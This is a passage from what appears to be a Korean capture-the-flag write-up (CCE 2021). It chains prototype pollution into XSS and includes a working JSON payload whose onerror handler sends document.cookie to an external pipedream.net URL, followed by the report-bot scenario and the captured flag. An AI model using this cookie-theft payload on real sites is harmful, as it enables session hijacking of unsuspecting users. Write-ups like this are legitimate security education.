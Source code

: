 ![](https://user-images.githubusercontent.com/49112423/134794962-40c6441c-6863-4a25-a588-9b56537e5935.png)

예상대로 XSS 트리거가 잘 되는 것을 확인할 수 있었습니다.

```txt
{"data":{"__proto__":{"__proto__":{"preventDefault":"x", "handleObj":"x","delegateTarget":"<img/src/onerror=fetch(`https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f=`+document.cookie)>"}}}}
```
쿠키 탈취 POC는 위와 같습니다.

- Scenario

  - /saveGame에서 Prototype Pollution POC를 저장한다.
  - 신고 로직에서 filename과 POC가 들어 있는 Code 번호를 넘긴다.

![](https://user-images.githubusercontent.com/49112423/134795008-eb26caf9-7fa3-4a69-a509-5a729ee8cd57.png)

위 시나리오를 기반으로 익스를 시도 하니 플래그를 탈취할 수 있었습니다.

> cce2021{5cd5185ef46ce86f6c33543f75752a559fa843ec91a1176144f1a15d468f318d}

---
